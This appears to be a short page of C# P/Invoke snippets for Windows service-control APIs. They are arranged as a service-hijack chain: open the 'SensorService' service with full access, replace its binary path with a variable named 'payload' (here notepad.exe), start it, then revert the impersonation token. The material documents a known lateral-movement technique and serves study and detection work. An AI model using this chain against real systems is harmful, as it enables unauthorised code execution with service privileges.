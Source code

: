 ## [OpenService](https://docs.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-openservicea):

```
[DllImport("advapi32.dll", SetLastError=true, CharSet=CharSet.Auto)]
static extern IntPtr OpenService(IntPtr hSCManager, string lpServiceName, uint dwDesiredAccess);
```

```
string ServiceName = "SensorService";
IntPtr schService = OpenService(SCMHandle, ServiceName, 0xF01FF);
```

## [ChangeServiceConfigA](https://docs.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-changeserviceconfiga):

```
[DllImport("advapi32.dll", EntryPoint = "ChangeServiceConfig")]
[return: MarshalAs(UnmanagedType.Bool)]
public static extern bool ChangeServiceConfigA(IntPtr hService, uint dwServiceType, int dwStartType, int dwErrorControl, string lpBinaryPathName, string lpLoadOrderGroup, string lpdwTagId, string lpDependencies, string lpServiceStartName, string lpPassword, string lpDisplayName);
```

```
string payload = "notepad.exe";
bool bResult = ChangeServiceConfigA(schService, 0xffffffff, 3, 0, payload, null, null, null, null, null, null);
```

## [StartService](https://docs.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-startservicea):

```
[DllImport("advapi32", SetLastError=true)]
[return: MarshalAs(UnmanagedType.Bool)]
public static extern bool StartService(IntPtr hService, int dwNumServiceArgs, string[] lpServiceArgVectors);
```

```
bResult = StartService(schService, 0, null);
```

## [RevertToSelf](https://docs.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-reverttoself):

```
[DllImport("advapi32.dll", SetLastError = true)]
static extern bool RevertToSelf();
```

```
RevertToSelf();
```
